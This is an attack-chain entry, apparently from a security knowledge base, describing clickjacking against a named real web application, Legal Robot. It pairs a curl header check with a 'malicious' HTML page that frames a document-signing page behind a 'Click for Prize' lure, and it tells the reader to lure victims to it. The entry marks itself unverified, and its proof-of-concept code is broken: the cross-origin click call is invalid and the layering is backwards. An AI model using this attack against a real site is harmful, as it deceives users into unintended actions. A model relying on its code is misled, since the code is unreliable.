

---
tags:
  - clickjacking
  - security-headers
  - x-frame-options
  - csp
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inspect-Web-Application-for-Missing-Security-Headers]]'
  - '[[procedures/Exploit-Clickjacking-Vulnerability]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[User Execution]]'
updated_at: '2025-12-14T17:28:05.275Z'
description: >-
  An attack chain exploiting missing X-Frame-Options and Content-Security-Policy
  headers to enable clickjacking on the Legal Robot web application, allowing UI
  redressing to trick users into unintended actions.
skill_level: intermediate
impact_level: medium
id: 5ececd3b-0a59-4f4b-97fe-47036244d456
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[User Execution]]'
---
# Clickjacking Attack via Missing Security Headers in Legal Robot

Multi-stage attack chain demonstrating the identification and exploitation of missing security headers leading to clickjacking on the Legal Robot web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None specific (uses standard browser and curl)

### Target Environment

- Web application (e.g., Legal Robot at https://legalrobot.com)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Internet access to target site

### Initial Access Requirements

- No credentials required
- Public network position
- No prior access needed

## Detailed Attack Procedures

### Step 1: Inspect Headers
procedure: [[procedures/Inspect-Web-Application-for-Missing-Security-Headers]]

**Objective**: Identify the absence of protective headers like X-Frame-Options and Content-Security-Policy to confirm clickjacking vulnerability.

**Instructions**: Use [[commands/curl-check-headers]] to fetch and inspect the HTTP response headers of the target application:

```bash
curl -I https://legalrobot.com
```

Look for the absence of `X-Frame-Options` (should be DENY or SAMEORIGIN) and `Content-Security-Policy` (should restrict framing).

**Expected Output**: HTTP headers without X-Frame-Options or CSP, confirming the site can be iframed.

**Success Indicators**:
- No X-Frame-Options header present
- No CSP header restricting frames

### Step 2: Exploit Clickjacking
procedure: [[procedures/Exploit-Clickjacking-Vulnerability]]

**Objective**: Embed the target application in an iframe on a malicious site to trick users into performing unintended actions via UI redressing.

**Instructions**: Create a simple HTML page with an invisible iframe overlaying clickable elements. Host it on a controlled server (e.g., via GitHub Pages or local server). The iframe src points to the vulnerable Legal Robot page, such as a button for signing documents.

Example malicious HTML:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Click Here for Free Prize</title>
    <style>
        iframe { position: absolute; top: 0; left: 0; opacity: 0.5; z-index: 1; }
        button { position: absolute; top: 100px; left: 100px; z-index: 2; }
    </style>
</head>
<body>
    <iframe src="https://legalrobot.com/sign-document"></iframe>
    <button onclick="document.getElementsByTagName('iframe')[0].contentWindow.click()">Click for Prize</button>
</body>
</html>
```

Serve this page and lure a victim to interact with it, tricking them into clicking hidden elements in the iframe.

**Expected Output**: Victim's browser loads the target in the iframe, and clicks are redirected to perform actions like form submissions on Legal Robot.

**Success Indicators**:
- Target page loads in iframe without restrictions
- User clicks trigger actions in the iframed content

## Attack Chain Summary

### Key Achievements

1. Confirmed missing security headers enabling framing
2. Demonstrated UI redressing potential for user deception
3. Highlighted risk of unauthorized actions via clickjacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[User Execution]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
